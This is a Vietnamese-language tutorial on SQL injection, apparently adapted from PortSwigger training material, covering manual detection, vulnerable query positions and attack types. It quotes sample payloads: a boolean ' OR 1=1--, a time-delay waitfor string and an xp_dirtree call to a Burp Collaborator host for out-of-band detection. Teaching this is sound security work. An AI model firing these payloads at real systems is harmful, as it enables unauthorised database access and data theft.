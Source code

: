 Phần lớn các lỗ hổng SQL injection có thể được tìm thấy nhanh chóng và đáng tin bằng [trình quét lỗ hổng web của Burp Suite](https://portswigger.net/burp/vulnerability-scanner).

SQL injection có thể được phát hiện thủ công bằng cách sử dụng một số kiểm tra có hệ thống đối với một endpoint của ứng dụng. Ví dụ:
- Sử dụng ký tự trích dẫn đơn và kiểm tra lỗi hoặc các bất thường xuất hiện
- Gửi một số cú pháp SQL cụ thể đánh giá giá trị cơ sở của endpoint và đến một giá trị khác để tìm kiếm sự khác biệt có hệ thống trong các kết quả phản hồi. vd: ASCII (97)
- Gửi một điều kiện Boolean như `' OR 1=1--` và kiểm tra sự khác biệt trong phản hồi.
-  Gửi một payload kích hoạt độ trễ thời gian khi thực thi truy vấn SQL và kiểm tra sự khác biệt trong thời gian phản hồi.
Vd: `'; waitfor delay ('0:0:20')--`
- Gửi một payload để kích hoạt một tương tác ngoài băng tần và theo dõi phản hồi tới.
Vd: `exec master..xp_dirtree'//adhiadhaidhai.burpcollaborator.net/a`

# SQL injection trong các phần của truy vấn
Hầu hết các lỗ hổng SQL injection phát sinh trong mệnh đề `WHERE` của truy vấn `SELECT`. Dạng SQLi này thường được hiểu rõ bởi những người kiểm thử có kinh nghiệm.
Nhưng về nguyên tắc , lỗ hổng SQL injection có thể xảy ra tại bất kỳ vị trí nào trong một truy vấn và trong các loại truy vấn khác nhau. 
Các vị trí phổ biến nhất mà SQLi có thể xảy ra là:
- Trong các câu lệnh `UPDATE`, ở vị trí giá trị được cập nhật hoặc sau mệnh đề `WHERE`
- Trong các câu lệnh `INSERT`, ở vị trí được chèn
- Trong các câu lệnh `SELECT`, ở vị trí tên bảng hoặc tên cột
- Trong các câu lệnh `SELECT` , ở vị trí mệnh đề `ORDER by`.

# Các ví dụ về SQL injection
Trong nhiều tình huống phát sinh khác nhau, sẽ có nhiều lỗ hổng , tấn công và kỹ thuật SQLi. Một vài ví dụ phổ biến gồm:
- `Retrieving hidden data(trả về dữ liệu ẩn)` : xảy ra khi có thể chỉnh sửa một truy vấn SQL để trả về thêm kết quả.
- `Subverting application logic (phá vỡ logic ứng dụng)`: xảy ra khi có thể thay đổi một truy vấn để ảnh hưởng tới logic của ứng dụng.
- `UNION attack`: xảy ra khi có thể truy xuất dữ liệu từ các bảng dữ liệu khác.
- `Blind SQL injection`: xảy ra khi kết quả của một truy vấn đang tấn công không phản hồi trong các phản hồi của ứng dụng.

## Truy xuất dữ liệu ẩn
Ví dụ: Một ứng dụng mua sắm hiển thị các sản phẩm trong danh mục khác nhau. Khi người dùng nhập vào danh mục `Gifts` trình duyệt sẽ request URL:
`https://insecure-website.com/products?category=Gifts`

Điều này làm cho ứng dụng thực hiện một truy vấn SQL để truy xuất các sản phẩm có liên quan trong cơ sở dữ liệu.

```js
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Giải thích truy vấn:
Truy vấn này sẽ yêu cầu cơ sở dữ liệu trả về:
- Tất cả chi tiết sản phẩm (*)
- Từ bảng `products`
- tại category là `Gifts`
- và released là 1

